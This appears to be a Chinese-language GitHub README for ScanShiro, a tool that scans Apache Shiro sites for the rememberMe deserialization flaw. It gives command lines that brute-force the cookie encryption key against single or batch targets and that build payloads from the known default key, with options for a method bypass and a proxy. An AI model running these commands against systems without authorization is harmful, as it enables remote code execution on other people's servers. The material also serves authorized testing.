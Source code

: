 # ScanShiro

>把去年写的ShiroScan 给重构了一下

## Update
1.扫描的判断逻辑,通过返回的rememberMe个数进行判断

2.添加了bypass功能,可以发送随机的请求方法


## 学习

[原理](http://www.lmxspace.com/2020/08/24/%E4%B8%80%E7%A7%8D%E5%8F%A6%E7%B1%BB%E7%9A%84shiro%E6%A3%80%E6%B5%8B%E6%96%B9%E5%BC%8F/)

```java
<1.2.4   shiro550
<1.4.2   shiro721 https://cloud.tencent.com/developer/article/1944738 需要成功登录(目前还没有添加
>1.4.2   换加密方法 aes cmg
```

## 使用

```java
暴力破解key
java -jar ScanShiro.jar -u http://0.0.0.0 -k key.txt
        
批量暴力破解key
java -jar ScanShiro.jar -f url.txt -k key.txt
        
根据正确的key生成payload 适合在有key无gadgets的情况下
java -jar ScanShiro.jar -p payload.ser -c kPH+bIxk5D2deZiIxcaaaA==

-n 参数是值修改shiro中cookie的名字少部分环境存在,默认是rememberMe
        
-proxy 参数是代理 目前只支持socks5代理并且没有用户名密码

支持 -bypass 1 
发送数据的请求方法
```

**说明:默认是先跑常规的模式如果没有跑出key就自动跑AES/GCM,并且生成payload的时候生成这两种的payload。怎么说呢工具肯定是存在误报的！！！**


## 问题

  1. 少部分环境存在shiro rememberMe参数为于post请求中 等待解决
  2. 经过大量测试,发现当跑批量的时候小几率出现连接异常的问题.所以为了保证工具准确性建议提前测试目标连接情况

